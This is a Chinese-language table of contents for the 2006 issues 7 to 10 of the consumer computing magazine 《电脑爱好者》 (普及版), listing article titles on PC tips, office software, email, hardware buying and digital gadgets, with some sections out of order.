- 36 扭曲功能实现图像立体感
- 37 左右开弓选择前景背景颜色
- 37 图片大小不合适的解决办法
- 37 完全清除整幅图像的技法
- 37 画板中的颜色不止有 28 种
- 37 借助特殊键绘制特殊椭圆
- 37 拉伸功能实现图像缩放
- 38 你的打印机支持即插即用吗
- 38 用打印测试页确定打印机状态
- 38 通过添加硬件向导添加打印机
- 38 连接到本地或网络打印机
- 38 查看打印机正在打印什么
- 39 不打开文档也能打印文档
- 39 确保正确打印复杂页面
- 39 让页面旋转角度打印
- 39 让每页纸打印多页内容
- 39 通过打印机任务添加打印机
- 39 给你的打印机起个特色名字
- 40 命令提示符是个什么样
- 40 命令提示符不光黑底白字
- 40 让命令提示符启动更快速
- 40 如何进入命令提示符窗口
- 40 获取内部命令详细说明
- 40 从众多信息中查你所需
- 41 “最大化”的尺寸谁来定
- 41 把操作都可以复制下来
- 41 内存占用最小的运行方式
- 41 让提示符字体更显眼
- 41 鼠标不能选择复制怎么办
- 41 提示符窗口光标可以变大
- 41 获取内部命令清单说明
- 42 特色系统辅助工具软件大观
- 44 Word 计算也会出错？—— Word 计算需要规范输入
- 44 临时复印，Word 帮你搞定
- 45 轻松操控文字下的对象
- 45 让 Word 项目不再自动编号
- 46 让 Word 自动打开横向页面
- 46 让插入文中的图片显示出来
- 47 用自定义词库打造个性输入方法
- 47 一闪一闪亮晶晶 键盘两颗小星星
- 48 用 Nero 刻录备份硬盘或硬盘分区
- 48 重码区固定首字也非一成不变
- 49 给插件找个管家——Upiea
- 49 能制作个性化照片的看图软件 iSee
- 50 Windows 找不到闪盘怎么办？
- 51 《杀毒不净为哪般》一文补遗
- 51 找回“显示桌面”学问多
- 52 巧用桌面扩展，工作娱乐两不误
- 52 让 Windows XP 自动展示自己的靓照
- 网络 E 生活
- 53 回到童年玩个够
- 54 精彩世界杯别错过
- 55 博客之旅（一）
- 57 IE 地址栏还能做什么
- 57 别让 IE 泄露你的隐私
- 57 离线也能收藏网站
- 58 收藏夹带着走
- 58 添加网址的最快方法
- 59 如何隐藏收藏夹
- 59 如何删除收藏夹
- 59 远方未去地图已在手
- 60 收藏夹做主页
- 60 音乐盒把好歌携带
- 61 有问题找“爱问”
- 62 酷狗帮你找音乐
- 62 在论坛留下你的 QQ 状态
- 63 两台电脑共享宽带
- 64 免费短信网上发——网易泡泡
- 65 免费短信网上发——KC2005
- 66 网易网盘你用了吗
- 67 QQ 信箱也能在 OE 中使用
- 68 改变邮件的存放位置
- 68 转换乱码邮件
- 68 备份邮箱账户
- 68 备份 OE 通讯簿

《电脑爱好者》合订本·附录分册

## 第七期

### 新闻
- 5 特别关注
- 6 数字时代
- 7 新品曝光
- 8 硬件淘宝
- 9 软件前线

### 初学者乐园
- 10 家有初学老爸 攀登篇——管理好你的文件
- 12 和党党一起入门 Photoshop——靓肤是这样炼成的
- 13 IE 浏览器图图通（中）
- 14 玩转控制面板系列篇之——任务计划
- 15 文件选定有三法
- 15 文件改名有三法
- 15 文字选定有五法
- 16 锁定电脑你用哪一招
- 16 单击也可以打开文件
- 16 系统时间为什么归零
- 17 压缩解压后需要做什么
- 17 把常用软件设成默认
- 17 常用软件开机即启
- 18 启动速度可以这样提高
- 18 在 Windows 2000 中也能运行老程序
- 18 如何关闭错误报告
- 18 不进入电子邮件软件也能发邮件
- 19 不关闭窗口也能看到桌面
- 19 浏览时让翻页提速
- 19 屏幕键盘保护密码
- 20 Word 表格也能计算
- 20 让记事本帮你记时间
- 20 在 Word 中粘贴无格式网页内容
- 21 去除多余的空行
- 21 让信使从此不再打扰你
- 22 保护电脑不被黑客入侵
- 22 让好歌自动连放
- 23 转换音乐格式节省空间
- 23 快速刻录多张光盘
- 24 千千静听也能转换格式

### 软件学用通
- 25 通之篇：杀毒软件的高级用法
- 29 左键拖动复制单元格
- 29 左键拖动生成序列值
- 29 左键还能生成哪些序列
- 29 右键拖动复制单元格
- 29 右键拖动生成序列值
- 30 右键拖动只填充格式
- 30 右键拖动只复制数值
- 30 左键拖动等差值填充
- 30 右键拖动等差值填充
- 30 右键拖动等比值填充
- 30 以年月日为周期填充
- 30 以工作日为周期填充
- 30 以一定步长填充到确定值
- 31 Word 带图文档减肥一法
- 31 迅速保存或关闭多个 Word 文档
- 69 添加邮件签名
- 69 建立多个 OE 账户标识
- 69 建立信箱文件夹
- 69 改变邮件提示音
- 70 如何保存网上 Flash

### 硬件步步高
- 71 听说一个都不能少——如何购买游戏玩家的耳机
- 72 电脑上的世界杯——外置电视卡的选购与使用
- 73 家庭局域网组建方案
- 74 “达人”就是“喷”出来的！——喷墨打印机实用小技巧
- 75 导购风向标
- 78 妙手回春修硬件系列之一

### 数码 E 生活
- 79 让美丽的时刻永远定格在镜头之中——玩转数码相机之光圈与快门
- 81 一点技术含量都没有——小议 DC 摄影的误区
- 82 跳过手机为你挖的坑——手机防骗手册
- 83 到底是谁动了我的手机话费——小心 SP 的陷阱
- 84 消费者难道真是唾手可得的猎物？——小心手机维修的陷阱
- 85 笔记本选购时的注意事项
- 85 笔记本电脑散热底座面面观
- 86 让音乐无处不在——MP3 选购技巧杂谈
- 87 让笔记本电脑变身 DVD 放映机
- 88 边玩 PS2 游戏边看攻略？

### 俊博士信箱
- 89 开机后提示硬盘错误
- 89 开机后硬盘无法引导
- 89 开机后总是提示 CMOS 参数丢失
- 89 开机时多次执行内存检测
- 89 关机后键盘灯还亮
- 89 标有“Heat Sink”字样才是散热硅脂
- 89 调制解调器速度变慢了
- 90 为什么不拔下内置调制解调器电脑无法启动
- 90 两个网卡接口只有一个能上网
- 90 减少手机对人体的辐射
- 90 手机无法发送和接收短信息
- 90 清洁数码相机镜头
- 91 文件系统要 FAT32 还是要 NTFS
- 91 发音不准的人使用微软拼音输入法
- 91 复制的文字一粘贴就变成乱码
- 91 删除 Windows XP 自带游戏
- 92 Word 能否进行中英文互译
- 92 为什么 Word 中的表格无法调整列宽了
- 92 为什么 Excel 工作表只能打出部分内容
- 92 避免在 WinRAR 中反复输入密码
- 92 转移大批量 Outlook 邮件的方法
- 93 找回丢失的软件序列号
- 93 金山词霸 2006 不能取词
- 93 安装 CuteFTP 时提示错误
- 93 安装 ikernel.exe 时出错
- 93 安装英文软件后中文菜单被改
- 33 Foxmail 给 Word 文档发送插上翅膀
- 33 邮件发往港台不必另换软件
- 33 智能学习令反垃圾作用更强
- 33 在 Foxmail 中制作并发送网页
- 33 改变邮件发送服务器发送应急邮件
- 33 用附件发送任意格式文件
- 34 准备你的名片 方便邮件发送
- 34 信纸管理器让信纸制作个性化
- 34 发送邮件该选择哪种方式
- 34 从文件中拿来信息作为邮件正文
- 34 直接安装！别担心丢掉旧邮件
- 34 阅读新概念——RSS 阅读
- 35 拼音输入也能成高手——双拼输入
- 35 在必要的时候用音节切分符
- 35 入门者的首选——全拼输入
- 35 如何设置逐键提示功能
- 35 带调输入减少汉字输入重码率
- 36 如何设置词语转换方式
- 36 逐键提示提高输入准确度
- 36 词语转换方式输入更加灵活
- 36 一口气输入一大段——整句录入
- 36 找回丢失的整句转换功能
- 36 将输入状态转换到双拼输入
- 36 定义个人习惯的双拼键位
- 37 挪用 Windows 中的输入法
- 37 快速切换文件和文件夹
- 37 从快捷图标上设置属性
- 37 获取任意文件夹文件列表信息
- 38 CLS 命令把“黑板”擦干净
- 38 把显示信息抓到文件中
- 38 比较两个文件内容的不同
- 38 巧妙地合并同一类文件
- 38 看看当前的 Windows 版本
- 39 定制其他桌面项的外观
- 39 启动程序方法何止两三种
- 39 打造一只超级敏感鼠标
- 39 选择合心的屏幕保护程序
- 40 逐一更改桌面外观项目
- 40 给鼠标指针换个花样
- 40 打造个性化字幕图片屏保
- 40 让屏幕显示更多的信息
- 40 让程序附着在开始菜单上
- 40 去除附着在开始菜单上的程序
- 41 特色工具软件大观园系统优化工具推荐
- 43 利用级联菜单输入数据
- 43 条形码证件制作的好帮手
- 44 给剪贴画重新着色
- 44 轻松恢复 Office 个性设置
- 45 妙用 Word 制作漂亮的个人印章
- 46 笔画辅助输入 提高输入速度
- 46 拼音加加汉字拆分辅助输入法
- 47 不装 Office 也能轻松看办公文档
- 47 打印带农历的年历
- 48 用 Foxmail 6.0 发送邮件特快专递
- 49 Foxmail 6.0 附件处理路路通
- 49 输入生僻汉字的两种方法
- 50 查 IP 地址的几种常用方法
- 50 快速查看数码照片的拍摄参数
- 51 快速访问文件夹的技巧

### 网络 E 生活
- 52 与世界杯同行
- 53 大头的幸福网络生活之一——你用什么方式上网
- 55 博客之旅（二）
- 57 来电所属地轻松查
- 58 开机就能自动拨号上网
- 59 ADSL 拨号只需双击
- 59 超级链接颜色随你变
- 60 手把手教你学用论坛

### 硬件步步高
- 69 工欲善其事，必先利其器——PC 游戏手柄选购
- 70 不求最好，只求实用——家用扫描仪选购指南
- 71 让容量来解决一切问题——移动硬盘选购
- 72 为你排忧解难，音箱选购不再是问题！——音箱选购系列
- 73 激光打印机省墨泄墨攻略
- 74 导购风向标
- 77 妙手回春修硬件系列之二

### 数码 & 休闲
- 78 玩转数码相机系列之快门速度
- 79 学好理论知识，走遍千山万水——玩转 DV 之视频常用名词解释
- 80 对模糊不清永远说不——初学 DV 高清听视频制作
- 81 众多软件在手工作从此无忧——视频格式转换实用手册
- 82 让笔记本电脑“仙福永享，寿与天齐”——笔记本电脑保养与维护
- 84 让你玩转数码世界——防水数码相机选购不再是愁
- 85 多媒体平台的真正“教父”——PSP 选购指南
- 86 张扬个性，秀出自我——打造别具一格的手机铃声
- 88 谁说 MP3 不能划分使用区？——MP3 分区教学

### 傻博士信箱
- 89 打印机文件阻塞的处理办法
- 89 并行接口的打印机连接到 USB 接口上
- 89 刻录机上“×”符号的含义
- 89 被固定的刷新率如何调整
- 89 待机恢复后 USB 设备不能用了
- 89 液晶屏的最佳分辨率
- 89 更换鼠标后鼠标工作不正常
- 90 CD 光盘显示超大容量
- 90 笔记本电脑添加内存的注意事项
- 90 数码相机“夜景模式”下拍摄的照片模糊
- 90 数码照片总有杂点
- 90 数码相机添加 CF 卡后照片质量下降
- 90 格式化 MP3 后播放器无法工作
- 91 登录 Windows XP 时不显示超级管理员账户了
- 91 幸福五笔字型支持 Windows XP
- 91 重装 Windows 98 后 Windows XP 不启动了
- 91 “启用休眠支持”选项不可选
- 92 Excel 常见错误提示的含义
- 92 Word 中插入的文字覆盖了原有内容
- 92 Word 中的文字下划线对不齐
- 92 Word 中无法选中单词中的某一部分
- 92 “剪贴板”中的内容插入到文档中总被增加空格
- 93 避免“迅雷”下载伤硬盘
- 93 避免“迅雷”承包所有下载任务
- 93 RealPlayer 无法关闭某个声道
- 93 电视上不能显示电脑输入的影像
- 93 抓取动态视频图片
- 94 主机能上网但客户机却不行
- 94 避免 IE 中“非法操作”的问题
- 94 脱机浏览的内容打不开
- 94 登录 MSN 时提示错误
- 94 “天网防火墙”不能自动启动

### 读编聊天室
- 95 雨丝小轩
- 96 订阅用户抽奖活动
- 96 《电脑爱好者》（普及版）2006年07期评刊表

## 第八期

### 新闻
- 5 特别关注
- 6 数字时代
- 7 新品曝光
- 8 硬件淘宝
- 9 软件前线

### 初学者乐园
- 10 家有初学老爸 挺进篇——系统设置轻松上手
- 12 和党党一起入门 Photoshop——生活照变写真照
- 13 IE 浏览器图图通（下）
- 14 任务管理器 De 奥秘
- 16 对话框中的各种元素
- 16 U 盘也能带走大文件
- 17 桌面图标自动排
- 17 桌面图标找回来
- 17 不用图标自动藏
- 17 桌面图标自己选
- 18 快速清出 Internet 临时文件夹
- 18 快速打开 Internet 临时文件夹
- 18 转移 Internet 临时文件夹
- 18 让窗口直接滚动到位
- 19 旋转的三维文字屏保
- 19 让屏幕保护随时运行
- 20 用 Word 打印特大字
- 20 特殊符号自动输
- 20 三字两字名单快对齐
- 21 存放文件夹即时建
- 21 给文件夹打上特色标签
- 21 让文件夹都有幻灯片方式
- 22 保存多版本好修改
- 22 做成 PDF 文档防人改
- 23 给刻录光盘加密
- 24 缩小图片好上传

### 软件学用通
- 25 学之篇：理解软件装卸的含义
- 29 自动跳到最后的单元格
- 29 自动跳到最前的单元格
- 29 左键移动单元格到指定位置
- 29 右键移动单元格到指定位置
- 29 右键复制单元格到指定位置
- 30 用右键只复制单元格的数值
- 32 文档字数统计方法多多
- 32 让 Word 自动打开一个文档
- 32 区分“工作”菜单和最近工作菜单
- 32 让“全部关闭”永久落户文件菜单
- 33 看 HTML 邮件不再怕病毒木马
- 33 三种类型两种格式的信纸
- 33 让信件回复到您指定的邮箱
- 33 体验更新更灵活的显示布局
- 33 “宏”让你的邮件模式化
- 33 写邮件时按需选择信纸
- 34 批量文件压缩后作为附件发送
- 34 在撰写的邮件中插入你的名片
- 34 改变你的发送邮件地址
- 34 收件人地址可以是一次多个
- 34 让默认打开的信纸格式随你所愿
- 34 邮件头信息不仅仅是三项
- 34 把邮件悄悄送给不同人
- 34 一次给多人发送同一封邮件
- 35 中英混合输入勿用切换键
- 35 设置不完整拼音输入模式
- 35 使用不完整拼音输入模式
- 35 设置中英文混合输入方式
- 35 口音重者用模糊拼音输入
- 36 在线自造词打造个性化词库
- 36 启用自学习功能
- 36 删除自学习文件
- 36 设置模糊拼音输入模式
- 36 删除用户在线自造词词典
- 37 生成一个空的目录结构
- 37 把藏起来的某类文件统统删掉
- 37 获得一个磁盘的目录树
- 37 选择拷贝同一类文件
- 38 任意更改文件的属性
- 38 不用编辑器显示文件内容
- 38 一次性删除同一类文件
- 38 默默地把文件删除掉
- 38 一次性生成多个文件夹
- 38 把同类只读文件统统删掉
- 39 启动程序只需点一次鼠标
- 39 让任务栏喜迁新居
- 39 让相似的任务分类排队显示
- 39 把非活动图标自动隐藏起来
- 40 桌面背景个性化方法多
- 40 启用桌面定期自动清理功能
- 40 音效让视窗锦上添花
- 40 桌面快捷方式不光能启动程序
- 41 特色工具软件大观园

### 光盘刻录与模拟精品工具
- 43 常驻 Excel 的“纪检组”
- 45 用 Word 制作个性化日历
- 46 用 ProtectZ 隐起我的小秘密
- 47 小工具轻松搞定相册、屏保
- 47 WMP10 帮你实现 CD 和 MP3 相互转换
- 48 恶意软件轻松清除
- 48 两步打造自己的卡拉 OK
- 49 小蔡和老史的 DVD 刻录对话
- 50 原来“打开方式”藏在这儿
- 50 文件夹也能彰显个性
- 51 搜索隐藏文件有妙招
- 51 让你的任务栏变得更干净

### 网络 E 生活
- 52 激情一夏 轻松一下## 普及版目录

《电脑爱好者》合订本·附录分册

- 60 不同搜索引擎间一键切换
- 60 来信邮址直接插入地址簿
- 61 雅虎助手让你上网无忧
- 61 让烦人的插件不再弹出
- 61 不知歌名的 MP3 也能搜
- 62 用 QQ 号码才能找到我
- 62 给陌生人设问防打扰
- 62 QQ 请别弹出视频打扰
- 62 隐藏你的 QQ 行踪
- 63 藏起摄像头防骚扰
- 63 QQ 防骚扰之雕虫小计
- 64 用 Outlook 来收信
- 64 群发邮件隐藏地址
- 64 暗发邮件为你保密
- 65 自动收信打印一条龙
- 66 四位一体 脱兔为王

### 硬件步步高
- 68 献给学生朋友们的暑期大礼——导购风向标之暑期配机方案大收集
- 70 在暑假里随心所欲玩转赛车游戏——游戏方向盘选购指南
- 72 打出你想要的文字，喷出暑假的光彩——购买合适的家用喷墨打印机
- 73 让夏日的缤纷绚丽与你同在——显卡优化超频软件大全
- 75 排除音箱问题，让你的耳朵在夏季“凉爽”起来——音箱维修小技巧
- 76 妙手回春修硬件系列之三

### 数码 & 休闲
- 77 玩转数码相机系列——数码相机测光模式解读
- 78 让 DC 也能在夜间看清夏季的炎热世界——数码相机红外摄影技巧
- 79 夏日炎炎，抵挡不了你的游戏热情——暑期游戏大放送
- 81 紧跟时尚的步伐，让暑假处处充满活力——彩屏 MP3 选购导购
- 82 展示自我舞台，秀出暑假热情——摄像头使用小技巧
- 83 献给暑期的一份大礼——摄像手机选购导购
- 85 让你的手机也能在暑期“清爽自如”——手机饰品导购
- 87 突破 PC 套件的限制——突破 PC 套件的限制
- 88 玩转 DV 系列——DV 动态拍摄技巧

### 俊博士信箱
- 89 MP3 无法播放某些 WMA 格式文件
- 89 BenQ120 不能播放 MP3
- 89 播放 MP3 时会出现跳过、死机的现象
- 89 Windows XP 不能装 USB 2.0 驱动
- 89 给没有光驱的笔记本电脑装系统
- 89 保存不用的笔记本电脑电池
- 89 打印机无法准确打印字体
- 90 数码相机的 CF 卡有区别
- 90 数码相机拍日出或日落
- 90 数码相机无法弹出镜头
- 90 如何维护光驱
- 90 插上闪存盘不能被识别
- 91 升级系统后 QQ 不能收发文件了
- 91 限制用户登录后访问硬盘分区
- 91 关闭任务管理器杀不了的进程
- 92 死机导致 Word 文件无法被打开
- 92 宏病毒导致 Word 文件无法被打开
- 92 Word 的水平和垂直滚动条一起移动
- 92 解决“网际快车”和“迅雷”右键启动失效问题
- 92 BT 下载软件怎样穿透防火墙
- 93 能否预览 BT 文件和不当别人的 BT 种子
- 93 批量删除压缩包中的文件
- 93 修复受损的 RM 和 DivX 视频文件
- 93 压缩文件的格式

## 第九期

### 新闻
- 5 特别关注
- 6 数字时代
- 7 新品曝光
- 8 硬件淘宝
- 9 软件前线

### 初学者乐园
- 10 家有初学老爸 娱乐篇——用电脑听音乐看影碟
- 12 和党党一起入门 Photoshop——生活照背景轻松换
- 13 并行串行传输谁快
- 14 极速狂飙 DE WinXP 系统
- 16 任务栏设置有讲究
- 16 迅速显示被盖住的桌面
- 16 关闭多个相似程序有妙招
- 17 更新系统补好漏洞
- 18 磁盘扫除腾空间
- 18 让“我的文档”彻底安全
- 18 把“折”起的分组任务栏展开
- 18 快速查看文件夹总容量
- 19 用好 KV2006 解除病毒困扰
- 20 记事本输入特殊符号
- 20 去掉快捷图标小箭头
- 21 数码照片日期批量去
- 22 精彩照片快速挑选
- 23 让文件打印出来是正序
- 23 转移系统临时文件夹
- 23 当天日期随时输入
- 23 自动存盘避免文档内容丢失

### 软件学用通
- 24 用之篇：实战软件装卸技法
- 29 给加密或压缩文件添彩
- 29 NTFS 格式文件压缩知多少
- 29 Windows XP 支持两种压缩
- 29 自己的驱动器是 NTFS 格式的吗
- 30 压缩 NTFS 驱动器以节省空间
- 30 zip 压缩文件夹使用须知
- 30 压缩 NTFS 驱动器上的文件或文件夹
- 30 从命令提示符将卷转换为 NTFS
- 31 Windows XP 强大的磁盘管理功能
- 31 硬盘驱动器安装三步走
- 31 通过“开始”菜单访问磁盘管理功能
- 31 通过右键菜单访问磁盘管理功能
- 31 通过“管理”命令访问磁盘管理功能
- 32 Windows XP 的两种磁盘类型
- 32 磁盘管理工具能为你做些什么？
- 32 磁盘管理器没有独立的窗口
- 32 使用工具按钮管理磁盘更方便
- 33 为右键菜单添加常用的几个项目
- 33 加快关机速度的两种优化措施
- 33 通过关闭系统服务加速软件运行
- 34 去掉跟随 Windows 而启动的软件
- 34 减少系统出错时所需的等待时间
- 34 缩短开机画面显示或等待时间
- 34 取消对系统出错时的消息提示
- 34 去除多余的鼠标右键“新建”菜单项
- 34 加快宽带网络速度 减少查找等待时间
- 35 超越抓图——SnagIt 的三大功能模块
- 35 菜鸟必知——基本抓图“三步曲”
- 35 最实用的文字拷贝功能
- 35 最常用的捕捉模式——图像
- 36 SnagIt 的三大图像编辑工具
- 36 让输出的图像格式随你所愿
- 36 动的场景也能抓取下来
- 36 自行确定抓图的文件名
- 36 网页中的成批图像也能捕获
- 36 让抓图自动按序列编号存储
- 37 数台打印机同时开工打印
- 37 打印属性设置的两个级别
- 37 查看当前所选打印机状态
- 37 单面打印机也可双面打印
- 37 用 U 盘把你的打印结果带走
- 37 用两种方式打印多份副本
- 38 根据需要设置打印的范围
- 38 双面打印不用手工整理纸张
- 38 后台打印——两不误的选择
- 38 非正式输出选择草稿更快速
- 38 Word 本身就是一台缩印机
- 38 文档的属性如何来打印
- 38 用奇偶页实现双面打印
- 38 单独打印文档摘要信息
- 39 为单元格画上你要的边框线
- 39 为单元格画上你要的网格线
- 39 为边框线换个别的花样
- 39 边框随单元文本一同旋转
- 39 为边框线换个亮丽的颜色
- 39 添加或删除工作表的背景图案
- 40 边框模式切换有快捷方式
- 40 为单元格加上鲜艳的阴影
- 40 使用一种其他类型的边框
- 40 一块橡皮就可删除边框
- 40 删除单元格已有阴影效果
- 40 使用不同类型的边框线型
- 40 在页面周围加上边框
- 40 给单元格加上图案形阴影
- 41 图片专家 iSee 实用案例精解
- 41 省时省力 图片要玩批处理
- 42 自娱自乐 图片扮酷我最炫
- 43 特色软件大观园之软件卸载与清除精品工具
- 45 治疗 Word“稿纸向导”缺陷的“药方”
- 45 Word 也能裁剪图片
- 46 Excel 表格分列也讲“条件”
- 47 用 KMPlayer 轻松截取视频资源
- 47 ACDSee 也能来截取图片
- 48 让 IE 不要泄密
- 48 找出 KMPlayer 里面的彩蛋游戏
- 49 MP3 文件巧合并
- 49 “精灵”帮你备驱动
- 50 让 XP 桌面再现“我的电脑”

### 网络 E 生活
- 51 我的教师节礼物与众不同
- 54 大头的幸福网络生活之三——新手上路
- 56 上网用傲游 轻松加愉快
- 57 网上也能转换 PDF
- 57 跟着傲游一起启动
- 58 将收藏夹放到开始菜单中
- 58 快速打开收藏夹文件夹
- 58 收藏夹帮你打开常用文件夹
- 59 让你的发言更个性
- 59 让你的签名更个性
- 59 我的 QQ 你别上
- 60 QQ 号被盗好友仍在
- 60 QQ 通讯录帮我忙
- 60 用名字快找 QQ 好友
- 61 新闻组浏览 可利用的宝藏
- 62 家和单位收信两不误
- 63 无人邀请也能申请 Gmail
- 63 让 Gmail 也拥有邮件提示功能
- 64 把 Gmail 变成网络硬盘
- 65 让 Gmail 信箱入驻 OE
- 65 让 Gmail 信箱入驻 Foxmail
- 66 博客文章快速保存
- 67 查找下载文件的来龙去脉

### 硬件步步高
- 68 显卡加速没商量——显卡优化软件 Powerstrip 应用指南
- 69 让 CPU 飞起来——CPU 超频指南
- 70 暑期低价刻录机导购
- 72 在收获的季节里享受听觉大餐——PC 音箱简易优化
- 73 谨小慎微才能打出完美的文字——喷墨打印机使用注意事项
- 74 能用的，才是最好的——扫描仪常见应用方案
- 75 妙手回春修硬件系列之四

### 数码 & 休闲
- 76 让 DC 拍摄从此变得生动起来！——玩转数码相机之逆光拍摄技巧
- 77 SHOW 出自己的精彩——玩转数码相机之微距摄影技巧
- 78 让 DV 拍摄稳如泰山
- 79 另类玩法，玩出个性真自我——用 DV 来玩视频聊天
- 80 智能手机全接触
- 82 让你不再为笔记本的保养发愁——笔记本六大死穴防范技巧
- 83 小心呵护它的能量之源——笔记本电池维护注意事项
- 84 DIY 自己的个性彩铃——手机彩铃制作应用以及经典彩铃推荐
- 85 让娇小的身躯为你驱逐夏日的炎热——迷你 MP3 选购指南
- 87 假期娱乐烦恼多 PSP 故障我来说

### 傻博士信箱
- 89 多种数码照片格式的区别
- 89 恢复误删除的数码照片
- 89 给数码照片上加日期
- 89 无法卸载移动硬盘
- 90 卸载一台打印机导致另一台故障
- 90 硬盘读写速度突然变慢
- 90 拔下鼠标后鼠标不能用了
- 90 摆脱摄像头视频请求困扰
- 91 Windows XP 显示上次光盘内容
- 91 磁盘空间严重缩水
- 91 影音文件无法被删除
- 91 系统网上升级速度慢
- 92 在 Word 中插入公式后行距变宽
- 92 Word、WPS 文件互访的方法
- 92 Word 中的邮件地址变为超链接
- 92 Word 中看不到页码
- 92 Word 文件显示重名无法保存
- 92 Word 中不能输入直引号
- 93 WinRAR 合并与还原 Mpeg 文件的方法
- 93 快速把文件压缩并写进闪存盘
- 93 让被删除的文件不能被恢复
- 93 把 PDF 转换为 TXT 格式
- 93 用 Winamp 将 MP3 转换成 WMA 格式
- 94 清除 IE 地址栏中的网址
- 94 让两台笔记本互连
- 94 让你的电脑在局域网中“隐身”
- 94 为何 MSN 无法正常登录

### 读编聊天室
- 95 雨丝小轩
- 95 订阅用户抽奖活动
- 95 《电脑爱好者》（普及版）读者调查表

## 第十期

### 新闻
- 5 特别关注
- 6 数字时代
- 7 新品曝光
- 8 硬件淘宝
- 9 软件前线

### 初学者乐园
- 10 家有初学老爸 办公篇——用电脑写报告
- 12 登录密码遗忘的救星
- 13 和党党一起入门 Photoshop ——证件照省钱冲印魔法
- 14 我是后悔药我怕谁——系统还原的自白
- 15 程序快速打开直通车
- 15 文件一次删净腾空间
- 16 化繁为简的文件批量处理
- 17 程序排坐 方便寻找
- 17 你会隐藏 我能现身
- 17 编写你的第一个网页
- 18 让 XP 显示速度快一点
- 18 路径完整 一目了然
- 19 省墨请用草稿输出
- 19 简转繁 并不难
- 19 文档首页去掉页码
- 19 休眠助你快速恢复工作
- 20 Windows 98 也玩缩略图查看
- 20 忘了刚存文档的位置怎么办
- 20 文中超链接 请你停下来
- 21 ZIP 还是 RAR 一眼区分
- 21 电影画面这样抓取
- 22 为我的课件做动画 VCD
- 23 将手边 CD “放”进 MP3

### 软件学用通
- 24 通之篇：成就软件装卸高手
- 31 用好磁盘管理器“操作”命令
- 31 选择整理碎片还是格式化
- 31 影响磁盘碎片整理时间的因素
- 31 不同的分区格式和功能菜单
- 31 为什么要进行磁盘碎片整理
- 32 碎片整理程序是如何工作的
- 32 用内置工具为你的磁盘做体检
- 32 用 MS-DOS 命令为你的磁盘做体检
- 33 磁盘清理助你轻装上阵
- 33 备份向导助你进行磁盘备份
- 34 打开项目点击次数由你定
- 34 巧用文件的反向选择功能
- 34 给桌面镶嵌一个酷网页
- 34 显示常见任务的超级链接
- 35 用好自动分组 清晰管理邮件
- 35 软件正常卸载 用户邮件仍留
- 35 多封不同邮件 可以一次发送
- 35 擅用全部回复 通报所有人知
- 35 过滤显示邮件 集中管理目标
- 35 几近绿色软件 无须重新安装
- 35 一次安装软件 多个系统使用
- 35 未写完之邮件 也可不用作废
- 36 发送机密邮件 保证信息安全
- 36 邮件乱码烦恼 提供处理方法
- 36 用好修改发送 不必另写邮件
- 36 快速发送邮件 分组同时知晓
- 36 设置阅读收条 以便确认收到
- 36 邮件地址备份 只需拷贝目录
- 37 在不知不觉中在线造词
- 37 汉字偏旁的输入方法
- 37 中文标点符号的输入
- 37 编辑处理用户自造词条
- 37 拼音窗口中的按键显示
- 37 状态条上的按钮最方便
- 38 用户自定义词条的备份使用
- 38 改变候选字符的排序方式
- 38 改变候选窗口的排列样式
- 38 候选窗口中按键的作用
- 38 专业化词库的自造与管理
- 38 用繁体输入法输入不常用字
- 39 Word 系统可以时时处处帮助你
- 39 Word 给小学语文老师送来福音
- 39 利用滚动条也能实现快速查找
- 39 最方便的调整字体大小之法
- 39 成批去除网页中复制来的空行
- 39 巧用 Shift 键选取跨页文字
- 40 多种方法灵活用好快速定位
- 40 长文档中间页面如何从 1 起排
- 40 快速插入字符组成的通栏线
- 40 在 Word 中纵向选择文本两法
- 40 在 Word 中快速输入汉语拼音
- 41 绝妙手段重复输入特殊符号
- 41 快速输入小数的妙法
- 41 多张表同区域输入相同的数据
- 41 插入特殊符号又一法
- 41 调整单元格文字方向随心所欲
- 42 根据数据类别自动切换输入法
- 42 将数字转换成大写
- 42 重复输入多个单元内容不麻烦
- 42 在多张表中同时输入相同数据
- 42 输入超过 11 位的数字
- 43 电脑与电话间的温馨问候
- 46 精品文字处理工具推荐
- 48 慎防泄密，手机杀毒
- 49 Word 2003 水平标尺的妙用
- 50 个性内盘，彰显智慧用心

### 网络 E 生活
- 51 国庆“节中节”锦囊妙计
- 55 大头的幸福网络生活之四——网络通天下
- 57 专业搜索 一步到位
- 58 YOK 让搜索超级简单
- 59 搜索记录踏雪无痕
- 59 杀毒 在线加免费
- 60 月历壁纸随意做
- 60 找回不小心关闭的网页
- 60 快找你想要的网页内容
- 61 上不了网 局域网里聊
- 62 聊天贴心小秘书
- 63 昵称再变也知你是谁
- 63 精彩影片让好友分享
- 63 让 QQ 发送文件不受阻
- 63 可执行文件 QQ 也发送
- 64 邮件收不收你决定
- 65 OE 不能用 Gmail 时这样设置
- 65 邮件重发不用重写
- 66 新电脑不用旧网卡照进局域网
- 67 网络记事本随写随用

### 硬件步步高
- 68 导购风向标之酷睿 2 新机型全面盘点
- 70 升级主板 BIOS 不要烦——BIOS 升级指南
- 72 教你玩转激光打印机——激光打印机实用技巧
- 73 心灵手巧玩转扫描仪并非难事——扫描仪高级应用方案
- 74 妙手回春修硬件系列之五

### 数码 & 休闲
- 75 在暑假里让你的 DV 光耀起来——DV 液晶显示屏保养与清洗
- 76 别说我的呵护你无所谓——DV 日常保养技巧
- 77 警报警报！DV 故障来袭——DV 报警故障处理方法
- 78 将 DV 作品编辑成一段完美的视频——DV 视频采集卡选购指南
- 79 留住那雪花飞舞的精彩瞬间——玩转 DV 系列之雪景拍摄技巧
- 80 减肥瘦身，让它成为“苗条淑女”——MP3 文件瘦身计划
- 81 笔记本电脑，谁说学生不适用？
- 82 自己动手优化你的笔记本电脑——笔记本电脑使用技巧大全
- 84 学海无涯，实践出真知——玩转数码相机之快速提高 DC 拍摄技巧
- 85 和模糊说拜拜——玩转数码相机之防止晃动
- 86 害人之心不可有，防人之心不可无——手机防盗防骗技巧
- 87 对你呵护每一天——手机保养技巧与紧急故障处理方案

### 傻博士信箱
- 89 如何用笔记本电脑看电视
- 89 如何清洁数码相机
- 89 微距拍摄的照片光线不好
- 89 为何拍摄红色物体会失真
- 89 手机待机时间短
- 89 驱动补丁使声卡失声
- 90 前置 USB 连线错误造成蓝屏
- 90 显示器发出刺耳响声
- 90 重装音箱后音量大幅减小
- 90 内存问题导致错误提示
- 90 电脑接上麦克风出现噪音
- 91 查出阻碍上网的木马
- 91 音视频文件播放速度过快
- 91 系统不让删除大文件
- 91 “超级兔子”导致分区丢失
- 91 查看谁在访问我的电脑
- 92 Word 发送不了文件
- 92 怎样关闭拼写错误标记
- 92 如何提取 PPT 中的好图片
